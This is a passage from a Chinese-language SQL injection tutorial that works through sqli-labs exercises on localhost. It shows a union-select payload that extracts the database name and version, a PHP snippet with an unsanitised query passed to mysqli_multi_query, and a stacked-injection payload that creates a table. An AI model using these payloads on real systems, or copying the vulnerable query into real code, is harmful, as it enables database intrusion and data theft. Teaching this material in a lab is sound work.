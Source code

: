 最后发现它共有 3 个字段，我们看看哪些字段显示出来了：  

<Image alt="Drawing 10.png" src="https://s0.lgstatic.com/i/image2/M01/03/A3/Cip5yF_gPVGAYoxhAANs6mFjRDI693.png"/> 
  
图 11：字段展示

可以发现 2 和 3 字段显示在页面中，这里我们就可以进一步构造利用以获取数据库名和版本信息：

```sql
http://localhost/Less-2/?id=0 union select 1,database(),version()
```

最终，我们成功爆出数据库名为 security，版本为 5.5.44-0ubuntu0.14.04.1，如下图所示：


<Image alt="Drawing 11.png" src="https://s0.lgstatic.com/i/image2/M01/03/A3/Cip5yF_gPVmAaBouAAN-25Njwzw855.png"/> 
  
图 12：成功爆出数据库名

#### 多语句堆叠注入

在 SQL 语句中，允许使用分号间隔多个查询语句来执行。mysqli_multi_query() 函数可以通过分号间隔插入多个查询语句实现堆叠注入。以 sqli-labs 第 38 题为例：

```php
<?php
    $id=$_GET['id'];
	......
	$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
	/* execute multi query */
	if (mysqli_multi_query($con1, $sql))
	{
       ......
    }
    ......
?>
```

此处正是使用 mysqli_multi_query 函数实现的多语句查询。我们可以尝试插入另一条语句来创建表：

```sql
http://localhost/Less-38?id=1';create table sqli like users;
```

执行前的表：

```java
mysql> show tables;
+--------------------+
| Tables_in_security |
+--------------------+
| emails             |
| referers           |
| uagents            |
| users              |
+--------------------+
4 rows in set (0.00 sec)
```
